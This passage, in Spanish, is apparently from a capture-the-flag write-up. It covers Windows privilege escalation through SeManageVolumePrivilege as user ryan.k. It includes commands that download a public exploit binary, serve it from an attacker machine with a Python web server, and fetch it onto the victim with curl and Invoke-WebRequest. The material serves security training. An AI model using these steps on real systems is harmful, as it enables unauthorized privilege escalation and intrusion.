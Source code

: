 ### 8.1 Enumeración de Privilegios de ryan.k

```powershell
# Verificar usuario
whoami
# Output: certificate\ryan.k

# Verificar privilegios especiales
whoami /priv
```

**Privilegio importante encontrado:**
```
SeManageVolumePrivilege       Perform volume maintenance tasks  Enabled
```

### 8.2 ¿Qué es SeManageVolumePrivilege?

Este privilegio permite:
- Realizar tareas de mantenimiento en volúmenes
- Cambiar permisos en cualquier archivo del sistema
- Es un privilegio muy peligroso si se puede explotar

### 8.3 Descarga del Exploit SeManageVolumeExploit

**En Kali:**
```bash
# Descargar el exploit
wget https://github.com/CsEnox/SeManageVolumeExploit/releases/download/public/SeManageVolumeExploit.exe

# Verificar descarga
file SeManageVolumeExploit.exe
ls -la SeManageVolumeExploit.exe

# Iniciar servidor web
python3 -m http.server 8000

# Verificar tu IP
ip a | grep tun0
# Ejemplo: inet 10.10.14.59/23
```

**En la máquina víctima (como ryan.k):**
```powershell
# Descargar el exploit (usar TU IP)
curl http://10.10.14.59:8000/SeManageVolumeExploit.exe -o SeManageVolumeExploit.exe

# Si curl falla, usar Invoke-WebRequest
Invoke-WebRequest -Uri http://10.10.14.59:8000/SeManageVolumeExploit.exe -OutFile SeManageVolumeExploit.exe

# Verificar descarga
dir SeManageVolumeExploit.exe
```

